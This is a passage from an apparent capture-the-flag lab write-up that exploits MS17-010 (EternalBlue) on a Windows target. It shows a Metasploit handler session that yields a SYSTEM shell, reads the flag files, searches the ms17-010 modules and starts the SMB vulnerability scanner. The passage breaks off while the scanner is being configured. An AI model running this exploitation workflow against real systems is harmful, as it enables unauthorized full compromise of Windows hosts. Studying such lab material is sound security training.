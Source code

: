     msf5 exploit(multi/handler) > sessions -i 1
    [*] Starting interaction with 1...
    
    More?
    SR<@p   f%_փMgٿ?:6Zdx8}}(ks-cx_JwD`c@MWHȱl hp6
    The system cannot find the file specified.
    
    C:\Windows\system32>whoami
    whoami
    nt authority\system
    

From there I can grab the flags:

    
    
    C:\Users\Admin\Desktop>type root.txt
    68bba2c7...
    
    C:\Users\User\Desktop>type user.txt
    3f819f9f...
    

### Metasploit - Fail

I figured I’d show how to do this with Metasploit as well, but that effort led
to failure.

#### Scan

Since I already have it open, I’ll type `background` into my shell to
background the session. Then I’ll search for the exploit:

    
    
    msf5 exploit(multi/handler) > search ms17-010
    
    Matching Modules
    ================
    
       Name                                           Disclosure Date  Rank     Check  Description
       ----                                           ---------------  ----     -----  -----------
       auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
       auxiliary/scanner/smb/smb_ms17_010                              normal   Yes    MS17-010 SMB RCE Detection
       exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
       exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
       exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
    

I’ll give the scanner I run first. I use the scanner and then set the RHOSTS
to the target, and run it. It looks vulnerable:

    
    
    msf5 exploit(multi/handler) > use auxiliary/scanner/smb/smb_ms17_010
    msf5 auxiliary(scanner/smb/smb_ms17_010) > options
    